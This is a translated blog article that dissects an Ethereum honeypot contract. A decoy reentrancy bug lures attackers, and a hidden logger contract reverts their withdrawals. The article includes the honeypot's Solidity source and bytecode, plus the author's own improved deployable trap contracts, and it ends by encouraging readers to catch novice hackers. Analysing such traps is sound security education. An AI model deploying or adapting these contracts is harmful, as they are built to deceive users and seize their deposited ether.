

# 解剖以太坊蜜罐

> 原文：<https://medium.com/coinmonks/dissecting-an-ethereum-honey-pot-7102d7def5e0?source=collection_archive---------0----------------------->

免责声明:在本文结束时，你将有机会获得代码，并知道如何将蜜罐部署到以太网。这不是出于恶意，而是作为一种教育。不良行为者的动机是已经知道这些信息并使用它们。让信息免费提供给好的行为者访问这些信息，希望在将来可以减轻。

我花了时间将所有已知的 Solidity 漏洞和黑客技术汇编成一本小手册。

我将在 21 周以上的时间里每周发布每篇文章。我将讲述的一些例子:

*   重新进入
*   拒绝服务—气体
*   拒绝服务—恢复
*   强制以太——自毁
*   强制以太——预定论
*   存储分配漏洞
*   下溢/上溢
*   [重返蜜罐](/@alexsherbuck/dissecting-an-ethereum-honey-pot-7102d7def5e0)
*   函数调用蜜罐

本周早些时候，[在/r/ethdev/u/currenty coon](https://www.reddit.com/r/ethdev/comments/7x5rwr/tricked_by_a_honeypot_contract_or_beaten_by/)上发布了一篇帖子，分享了他们试图利用他们当时认为是不安全的合同中的重入错误。

相反，他们发现他们为了获得平衡而发送到合同的以太被锁定。他们不能撤退。看看您是否发现了这个蜜罐中的漏洞:

```
pragma solidity ^0.4.19;contract Private_Bank
{
    mapping (address => uint) public balances;

    uint public MinDeposit = 1 ether;

    Log TransferLog;

    function Private_Bank(address _log)
    {
        TransferLog = Log(_log);
    }

    function Deposit()
    public
    payable
    {
        if(msg.value >= MinDeposit)
        {
            balances[msg.sender]+=msg.value;
            TransferLog.AddMessage(msg.sender,msg.value,"Deposit");
        }
    }

    function CashOut(uint _am)
    {
        if(_am<=balances[msg.sender])
        {

            if(msg.sender.call.value(_am)())
            {
                balances[msg.sender]-=_am;
                TransferLog.AddMessage(msg.sender,_am,"CashOut");
            }
        }
    }

    function() public payable{}    

}contract Log 
{

    struct Message
    {
        address Sender;
        string  Data;
        uint Val;
        uint  Time;
    }

    Message[] public History;

    Message LastMsg;

    function AddMessage(address _adr,uint _val,string _data)
    public
    {
        LastMsg.Sender = _adr;
        LastMsg.Time = now;
        LastMsg.Val = _val;
        LastMsg.Data = _data;
        History.push(LastMsg);
    }
}
```

它真的非常聪明，依赖于潜在黑客的一些假设。

漏洞就在这里:

```
function Private_Bank(address _log)
    {
        TransferLog = Log(_log);
    }
```

在构造函数中，地址被强制转换为日志。这是重要的部分，代码中定义的日志契约就像地址的接口一样使用。这一行代码实质上是说“您可以在这个契约地址调用这个 API。”

假设所提供的代码就是正在运行的代码。不是这样的。根据标准的面向对象继承，契约可以自由地实现它想要的任何逻辑。

在蜜罐的日志中，当调用了撤销，但是地址与一些允许的值不匹配时，可能会有一个 revert 或 throw。这就是重入攻击能够成功执行的原因。然而，在攻击者耗尽资金后，日志记录器合同代码会恢复整个交易。

但是！我们的潜在攻击者已经向合同支付了最低存款，以便在漏洞利用中提取一些金额。

因此，为了设置这个陷阱，蜜罐首先部署了带有黑客逻辑的假记录器。您可以通过查看构造函数参数来查看 Etherscan 上契约地址:

```
-----Decoded View---------------
Found 1 constructor arguments :
Arg [0] : 000000000000000000000000f8681dad1ce4f1f414fb07fc07f81a3a82e91d8f
```

以太坊的字长是 32 字节。地址只有 20 个。这使得我们的地址:

```
f8681dad1ce4f1f414fb07fc07f81a3a82e91d8f
```

[在以太扫描上查看](https://etherscan.io/address/0xf8681dad1ce4f1f414fb07fc07f81a3a82e91d8f)

如果我们获取蜜罐记录器代码并通过 solc 运行，我们会得到:

```
0x6060604052341561000f57600080fd5b6105558061001e6000396000f30060606040526004361061004c576000357c0100000000000000000000000000000000000000000000000000000000900463ffffffff16806310176f8614610051578063da223bc3146100d6575b600080fd5b341561005c57600080fd5b6100d4600480803573ffffffffffffffffffffffffffffffffffffffff1690602001909190803590602001909190803590602001908201803590602001908080601f016020809104026020016040519081016040528093929190818152602001838380828437820191505050505050919050506101bb565b005b34156100e157600080fd5b6100e96102ee565b604051808473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001838152602001806020018281038252838181546001816001161561010002031660029004815260200191508054600181600116156101000203166002900480156101aa5780601f1061017f576101008083540402835291602001916101aa565b820191906000526020600020905b81548152906001019060200180831161018d57829003601f168201915b505094505050505060405180910390f35b82600160000160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055508160018001819055508060016002019080519060200190610221929190610325565b506000805480600101828161023691906103a5565b91600052602060002090600302016000600190919091506000820160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff168160000160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060018201548160010155600282018160020190805460018160011615610100020316600290046102e59291906103d7565b50505050505050565b60018060000160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff169080600101549080600201905083565b828054600181600116156101000203166002900490600052602060002090601f016020900481019282601f1061036657805160ff1916838001178555610394565b82800160010185558215610394579182015b82811115610393578251825591602001919060010190610378565b5b5090506103a1919061045e565b5090565b8154818355818115116103d2576003028160030283600052602060002091820191016103d19190610483565b5b505050565b828054600181600116156101000203166002900490600052602060002090601f016020900481019282601f10610410578054855561044d565b8280016001018555821561044d57600052602060002091601f016020900482015b8281111561044c578254825591600101919060010190610431565b5b50905061045a919061045e565b5090565b61048091905b8082111561047c576000816000905550600101610464565b5090565b90565b6104de91905b808211156104da57600080820160006101000a81549073ffffffffffffffffffffffffffffffffffffffff021916905560018201600090556002820160006104d191906104e1565b50600301610489565b5090565b90565b50805460018160011615610100020316600290046000825580601f106105075750610526565b601f016020900490600052602060002090810190610525919061045e565b5b505600a165627a7a72305820e47d0804178f0a268a54c2635d934115a42ae3d08eb05045b5ac4bc5fec521100029
```

下面是蜜罐中的字节码和网络上实际部署的代码之间的差异检查。

(左图是上面的字节码，右图是主网络代码)



它包含了几乎三倍的逻辑。那么还发生了什么呢？

为了保持无害，契约不能有任何管理功能。对吗？所以最大的问题是:

蜜罐主人是怎么把他们的钱取出来的？

很简单，他们利用合同的重入错误！但是他们实际上已经把自己变成了唯一允许利用漏洞的地址。

这是一个隐藏在众目睽睽之下的惊人壮举。攻击者立即认为他们的受害者不知道重入漏洞，但蜜罐所有者实际上是在说“哦，是的，我知道。”在潜在黑客第一次看到代码之前。

在下面的报告中有一个完整的单元测试 bug 的工作示例:

[https://github.com/tenthirtyone/ethereum_better_honey_pot](https://github.com/tenthirtyone/ethereum_better_honey_pot)

在我的回购协议中，我增加了一点力度:

```
pragma solidity 0.4.19;

contract TrustFund {
  address owner;
  uint256 public minDeposit;
  mapping (address => uint256) balances;
  Logger public TrustLog;

  function TrustFund(uint256 _minDeposit, address _logger) public payable {
    owner = msg.sender;
    minDeposit = _minDeposit;
    TrustLog = Logger(_logger);
  }

  function deposit() public payable returns (bool) {
    if (msg.value > minDeposit) {
      balances[msg.sender]+=msg.value;
      TrustLog.LogTransfer(msg.sender,msg.value,"deposit");
    } else {
      TrustLog.LogTransfer(msg.sender,msg.value,"depositFailed");
    }
  }

  function withdraw(uint256 _amount) public {
    if(_amount <= balances[msg.sender]) {
      if(msg.sender.call.value(_amount)()) {
        balances[msg.sender] -= _amount;
        TrustLog.LogTransfer(msg.sender, _amount, "withdraw");
      } else {
        TrustLog.LogTransfer(msg.sender, _amount, "withdrawFailed");
      }
    }
  }

  function checkBalance(address _addr) public view returns (uint256) {
    return balances[_addr];
  }
}

contract Logger {
  struct Message {
    address sender;
    uint256 amount;
    string note;
  }

  Message[] History;
  Message public LastLine;

  function LogTransfer(address _sender, uint256 _amount, string _note) {
    LastLine.sender = _sender;
    LastLine.amount = _amount;
    LastLine.note = _note;
    History.push(LastLine);
  }
}
```

这就是陷阱:

```
pragma solidity 0.4.19;

contract Log {
  address private owner;
  address private ethAddress;

  struct Message {
    address sender;
    uint256 amount;
    string note;
  }

  Message[] History;
  Message public LastLine;

  function Log() {
    owner = msg.sender;
    ethAddress = msg.sender;
  }

  function changeEthAddress(address _addr) {
    require(msg.sender == owner);
    ethAddress = _addr;
  }

  function LogTransfer(address _sender, uint256 _amount, string _note) {
    if (keccak256(_note) == keccak256("withdraw")) {
      require(_sender == ethAddress);
    }
    LastLine.sender = _sender;
    LastLine.amount = _amount;
    LastLine.note = _note;
    History.push(LastLine);
  }
}
```

在功能上，它似乎与蜜罐代码工作相同。您可以与信托基金合同互动，甚至查看历史日志。

我甚至为取款添加了一个白名单地址，因为，嘿，让我们的朋友也加入进来吧！如果每个人都在存款，而且它看起来像一个有效的合同，它很可能会吸引更多来自 bad 家伙的注意！

> [在您的收件箱中直接获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[](https://coincodecap.com/?utm_source=coinmonks)

往前走，抓住一些新手黑客。在你用我给的[给他们分配了可加密验证的慈善捐赠任务后，归还他们的乙醚](https://igave.io)

[](http://bit.ly/2G71Sp7)